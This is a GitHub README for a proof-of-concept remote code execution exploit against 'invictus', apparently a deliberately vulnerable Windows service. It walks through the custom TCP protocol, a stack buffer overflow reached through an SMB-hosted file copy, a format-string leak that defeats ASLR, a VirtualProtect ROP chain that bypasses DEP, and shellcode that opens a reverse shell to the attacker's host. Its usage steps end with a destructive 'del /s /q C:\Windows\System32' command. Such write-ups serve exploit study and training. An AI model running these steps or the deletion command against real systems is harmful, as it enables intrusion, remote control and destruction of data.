

# [POC-INVICTUS-RCE](https://github.com/patrickhener/invictus)

<!-- Summary -->
This proof of concept (PoC) leverages a stack-based buffer overflow in invictus to gain [remote code execution (RCE)](https://en.wikipedia.org/wiki/Arbitrary_code_execution). The PoC is mostly self-sufficient and only requires an external tool to host an anonymously accessible SMB share.



-blue?style=for-the-badge)


## Usage of the Exploit

1. **Clone** the GitHub repository with:

    ```bash
    > git clone https://github.com/damariion/POC-INVICTUS-RCE
    ```

2. **Share** the server directory under the name "victus" (e.g., using `impacket`):

    ```bash
    > smbserver.py -smb2support victus ./server
    ```

3. **Run** the exploit script with the following arguments:

    ```bash
    > python exploit.py -l <LHOST> -p <LPORT> -r <RHOST>
    ```

4. **Hack** your way to victory!:

    ```cmd
    > del /s /q C:\Windows\System32
    ```

## Communicating with the Application
<!-- How it reaches the generic functionalities -->

Invictus will be listening on **TCP** port **1337**, where it awaits the following initialisation packet:

```C
struct packet {
    uint32_t reserved_0;
    uint32_t epochsum;
    uint32_t length;
    uint32_t opcode;
    uint32_t checksum;
} 
```

- `reserved_0` should always be 0x5956475b;
- `epochsum` is a time-based checksum (see: <u>exploit.py:25</u>);
- `length` holds the size of the argument buffer;
- `opcode` specifies the API you want to use:
  - `0x800`: `FILE_READ`
  - `0x801`: `FILE_WRITE`
  - `0x802`: `FILE_COPY`
  - `0x803`: `FILE_DELETE`
  - `0x804`: `LOGS_READ`
  - `0x805`: `LOGS_DELETE`
- `checksum` is a size-based checksum (see: <u>exploit.py:36</u>)

After receiving the packet, invictus listens once again and awaits the API arguments, which are null-byte-segmented. This interaction is demonstrated in pseudo-code below:

```C
send({0x5956475b, <?>, 32, FILE_WRITE, <?>})
send("C:\\file.txt\0Hello World!\0")

print(recv(128)) // "0x801 OK"
```

## Triggering the Overflow

The vulnerability exists in `FILE_READ` at offset +0x1C2D, where the [`ReadFile`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile) Win32 API is used to read a file and store its contents in a buffer of 0x100 bytes:

```nasm
mov  dword [esp+04h], 0  ; lpFileSizeHigh
mov  eax, [ebp-0Ch]
mov  [esp], eax          ; hFile
mov  eax, ds:GetFileSize
call eax                 ; GetFileSize
sub  esp, 8
mov  [ebp-10h], eax
mov  dword [esp+10h], 0  ; lpOverlapped
lea  eax, [ebp-18h]
mov  [esp+0Ch], eax      ; lpNumberOfBytesRead
mov  eax, [ebp-10h]
mov  [esp+08h], eax      ; nNumberOfBytesToRead
lea  eax, [ebp-118h]
mov  [esp+04h], eax      ; lpBuffer (0x100 bytes)
mov  eax, [ebp-0Ch]
mov  [esp], eax          ; hFile
mov  eax, ds:ReadFile
call eax                 ; ReadFile
```

This size constraint is enforced in `FILE_WRITE` at offset +0x1DCC, where it truncates the provided contents to fit the buffer of 0x100 bytes:

```nasm
mov  eax, [ebp-18h]
add  eax, 100h
mov  byte [eax], 0
```

It is, however, possible to write content through `FILE_COPY` because it relies on the [`CopyFileA`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-copyfilea) Win32 API. This API permits a source file to be on an SMB share, providing a means of uploading files larger than 0x100 bytes:

```C
send({0x5956475b, <?>, 128, FILE_COPY, <?>})
send("\\\\<lhost>\\lfile.txt\0C:\\rfile.txt\0")

send({0x5956475b, <?>, 128, FILE_READ, <?>})
send("C:\\rfile.txt\0") // buffer overflow!
```

Using this method, we can send a **file of 0x120 bytes to overwrite the return address** of `FILE_READ` and trigger an access violation.

## Circumventing Limitations and Mitigations

**Address Space Layout Randomisation (ASLR)**

When invoking `FILE_WRITE`, the provided buffer first passes through the `sprintf` function at +0x1E7E before being written to the file definitively:

```nasm
mov  eax, [ebp-18h]
mov  [esp+04h], eax
mov  eax, [ebp-10h] ; <- contents
mov  [esp], eax
call sprintf_stub
mov  eax, [ebp-10h] ; <- contents
mov  [esp], eax     ; Stream
call fclose         ; <- file closes
```

This function can be abused by inserting [format specifiers](https://cplusplus.com/reference/cstdio/printf/) to leak contents of the stack:

```C
send({0x5956475b, <?>, 128, FILE_WRITE, <?>})
send("C:\\leak.txt\0[ebp+8] = %p")

send({0x5956475b, <?>, 128, FILE_READ, <?>})
send("C:\\file.txt\0") // "0x800 OK [ebp+8] = 03e6f5ec"
```

To prevent overflowing `FILE_READ` when reading many dwords, we instead write to the `C:\\Windows\\Temp\\invictus_log.txt` file and read its contents using `LOGS_WRITE`:

```C
send({0x5956475b, <?>, 128, FILE_WRITE, <?>})
send("C:\\Windows\\Temp\\invictus_log.txt\0" + "%p:"*0x100)

send({0x5956475b, <?>, 128, LOGS_READ, <?>})
send("\0") // ...0068c690:105a511e:03f0f4f0:7739e57a...
```

A stack comparison showed that offsets 0x50 and 0x3E contain the consistent values needed to resolve the bases of `invictus.exe` and `msvcrt.dll`, respectively.

**Data Execution Prevention (DEP/NX)**

To allow execution, a ROP chain is built from `msvcrt.dll`-supplied gadgets (because it's not prone to change) that fabricates the call frame of [`VirtualProtect`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect). This is achieved through the `pushad` method (see: `assets/dep_bypass.rop`):

```nasm
[esp + 0x00] edi ; <nop ret>
[esp + 0x04] esi ; <VirtualProtect>
[esp + 0x08] ebp ; <return>
[esp + 0x0C] esp ; lpAddress      (original ESP)
[esp + 0x10] ebx ; dwSize
[esp + 0x14] edx ; flNewProtect
[esp + 0x18] ecx ; lpflOldProtect
[esp + 0x1C] eax ; ...            (pushed first)
```

This API call then modifies the protection of the page that `esp` points to, changing it from `PAGE_READWRITE` to `PAGE_EXECUTE_READWRITE` to eventually branch to the shellcode (which also resides on the stack).

## Establishing an Interactive Shell
<!-- How it establishes an interactive shell -->

When stable ACE is reached, the shellcode acquires a handle to `kernel32.dll` which is used to resolve the following APIs through a custom implementation of [`GetProcAddress`](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress):

- `kernel32!LoadLibraryA`
- `kernel32!CreateProcessA`
- `kernel32!TerminateProcess`
- `ws2_32!WSAStartup` (`LoadLibraryA` resolves `ws2_32`)
- `ws2_32!socket`
- `ws2_32!connect`

Finally, it initialises a socket and connects to the host and port specified in `lhost` and `lport`, respectively. This socket is then used for the `hStdInput`, `hStdOutput` and `hStdError` members of the `lpStartupInfo` structure, which is in turn used to start an instance of `cmd.exe` through [`CreateProcessA`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) (see: `assets/reverse_shell.asm`).
